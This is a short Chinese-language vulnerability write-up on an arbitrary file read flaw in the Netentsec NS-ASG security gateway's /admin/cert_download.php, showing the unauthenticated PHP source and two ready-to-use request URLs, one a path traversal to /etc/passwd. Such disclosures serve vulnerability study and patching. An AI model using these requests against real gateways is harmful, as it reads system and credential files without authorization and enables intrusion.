


# 网康 NS-ASG安全网关 cert_download.php 任意文件读取漏洞

## 漏洞描述

网康 NS-ASG安全网关 cert_download.php 文件存在任意文件读取漏洞

## 漏洞影响

```
网康 NS-ASG安全网关
```

## 网络测绘

```
网康 NS-ASG安全网关
```

## 漏洞复现

出现漏洞的文件为 **/admin/cert_download.php**

```php
<?php
$filename = substr($file,strpos('certs/',$certfile)+6);
//文件的类型
header('Content-type: application/pdf');
//下载显示的名字
header('Content-Disposition: attachment; filename="'.$filename.'"');
readfile("$certfile");
exit();
?>
```

此文件没有对身份进行校验即可下载任意文件

```plain
/admin/cert_download.php?file=test.txt&certfile=../../../../../../../../etc/passwd
```



```plain
/admin/cert_download.php?file=test.txt&certfile=cert_download.php
```

